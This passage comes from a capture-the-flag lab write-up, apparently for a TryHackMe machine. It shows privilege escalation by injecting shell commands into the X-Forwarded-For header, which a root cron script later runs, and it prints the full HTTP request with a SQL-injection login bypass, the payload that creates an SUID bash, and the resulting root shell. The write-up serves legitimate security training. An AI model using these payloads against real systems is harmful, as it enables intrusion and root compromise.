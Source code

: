 The content of the file (if an SQL Injection is detected) is taken
from the HTTP header `X-Forwarded-For`, which we control when sending a
request.

## Exploitation

The strategy is :
1. Trigger the SQL Injection detection on the development website
  with a request
2. Add a `X-Forwarded-For` HTTP Header to the request with malicious
  code
3. Wait for the code to be executed by the root's task scheduler with
  root privilege

The malicious code we are gonna put into the HTTP Header is :
```
127.0.0.1;cp /bin/bash /home/kitty/bash;chmod +xs /home/kitty/bash;echo 'done';#
```

The code will exploit the script by using `;` to make several more
commands than it should and `#` to cut the `>> /root/logged`.

The injected code, when executed by `root`, will create an SUID bash
executable in the home of `kitty` (which will allow us to open a shell
with root privileges).

The HTTP request with the code injection :
```
POST /index.php HTTP/1.1
Host: [VM_IP_REDACTED]:1337
Content-Length: 38
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://[VM_IP_REDACTED]:1337
Content-Type: application/x-www-form-urlencoded
User-Agent: [REDACTED]
Referer: http://[VM_IP_REDACTED]:1337/
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=206tqdpujncvt23g7sncs7kdit
Connection: close
X-Forwarded-For: 127.0.0.1;cp /bin/bash /home/kitty/bash;chmod +xs /home/kitty/bash;echo 'done';#

username=kitty' or 1=1--&password=junk
```

A few moments later...
```
kitty@kitty:/tmp$ ls -l /home/kitty/
total 1160
-rwsr-sr-x 1 root root 1183448 Feb  5 16:04 bash
-rw-r--r-- 1 root root      38 Nov 15  2022 user.txt
```

We see the executable is own by `root` and has a SUID bit set.

We can use our new privileged bash to go to root and read the `root.txt` file
```
kitty@kitty:~$ ./bash -p
bash-5.0# cd /root
bash-5.0# ls
logged	root.txt  snap
bash-5.0# cat root.txt
THM{REDACTED}
```